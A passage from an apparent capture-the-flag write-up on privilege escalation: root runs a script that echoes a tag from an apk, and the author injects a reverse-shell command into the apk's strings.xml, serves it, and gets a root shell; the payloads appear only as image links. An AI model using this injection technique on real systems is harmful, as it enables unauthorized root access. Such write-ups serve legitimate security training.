


## Privilege Escalation
We run **pspy** and see that the root user is executing several scripts. We see that the root user is running the "**jarsigner**" binary on an apk and then executes the script "*/opt/mdm/verify.sh*".


##### Permissions of the "*verify.sh*" file:



We can't replace or edit it, we review the code and we see something strange. From what we can see in the script, it makes an **echo** taking a tag as an argument, if we manage to inject a system command we would be able to steal the root user's session.



We look for the tag in the apk we downloaded at the beginning, we find the structure of the file "*res/values/strings.xml*", so we will replace the line and put a reverse shell:



##### Malicious payload:


We raise a **python server** and download our malicious apk:



Now we wait for the script to run and wait for a reverse shell as root:



---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)
